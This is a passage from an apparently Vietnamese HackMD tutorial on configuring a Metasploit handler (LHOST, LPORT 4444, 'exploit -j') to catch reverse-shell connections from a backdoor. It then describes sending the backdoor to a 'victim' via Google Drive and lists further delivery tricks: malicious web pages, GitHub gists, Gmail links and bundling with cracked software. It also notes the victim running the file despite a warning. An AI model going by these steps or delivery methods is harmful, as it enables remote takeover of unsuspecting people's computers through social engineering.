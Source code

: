 ![ảnh](https://hackmd.io/_uploads/ryK2PI0Rp.png)

- set địa chỉ IP khi kết quả RCE trả về

```bash
set LHOST 192.176.45.101

```

![ảnh](https://hackmd.io/_uploads/rk1lOI0Aa.png)

- set port khi kết quả RCE trả về

```bash
set LPORT 4444

```

![ảnh](https://hackmd.io/_uploads/Hkv4u8CA6.png)

- kiểm tra lại thông tin cấu hình

![image](https://hackmd.io/_uploads/Hyw9VOCAT.png)

- và cuối cùng là thực thi payload này với tham số -j để thực thi theo kịch bản mà mình đã tạo trong backdoor ở trên

```bash
exploit -j

```

![ảnh](https://hackmd.io/_uploads/rk3w_ICAp.png)

- và mình đã thiết lập thành công nhưng chưa có máy nào đang chạy backdoor đó

![ảnh](https://hackmd.io/_uploads/SkDo_IRCa.png)

- tiếp thep mình up backdoor vừa tạo lên google driver và gửi cho victim

- và đợi victim tải về và chạy nó

![ảnh](https://hackmd.io/_uploads/HyQEcUAAp.png)

- ngoài ra các bạn có thể thực hiện những cách khác như:
  - tạo 1 trang web chứa file backdoor và gửi đến cho victim
  - đẩy file lên https://gist.github.com/ và gửi đến cho victim tải về
  - chèn các đường link đến file backdoor của chúng ta trên gmail gửi đến victim
  - chèn backdoor vào các phần mềm crack trên mạng
- khi victim truy cập vào link drive mình gửi sẽ hiện thông báo từ google drive
- có thể đó là do tên file mình đặt tên file là backdoor

![image](https://hackmd.io/_uploads/ryQ47d0Aa.png)

- sau đó victim tải file dù cho có hiện cảnh báo
